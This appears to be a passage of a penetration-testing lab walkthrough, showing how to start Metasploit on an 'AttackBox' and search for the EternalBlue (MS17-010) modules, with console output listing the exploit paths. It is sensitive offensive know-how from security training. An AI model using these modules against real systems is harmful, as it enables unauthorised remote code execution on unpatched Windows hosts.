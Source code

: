 ### Step 1: Start Metasploit

Open a terminal on the AttackBox and launch Metasploit:

```bash
msfconsole
```

**Output:**
```
                                                  
# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v6.3.4-dev                          ]
+ -- --=[ 2294 exploits - 1201 auxiliary - 409 post      ]
+ -- --=[ 951 payloads - 45 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                      ]

Metasploit tip: Use help <command> to learn more about any command

msf6 >
```

### Step 2: Find the EternalBlue Exploit

Search for the EternalBlue exploit in Metasploit's database:

```bash
search eternalblue
```

**Output:**
```
Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010        2017-03-14       normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
```
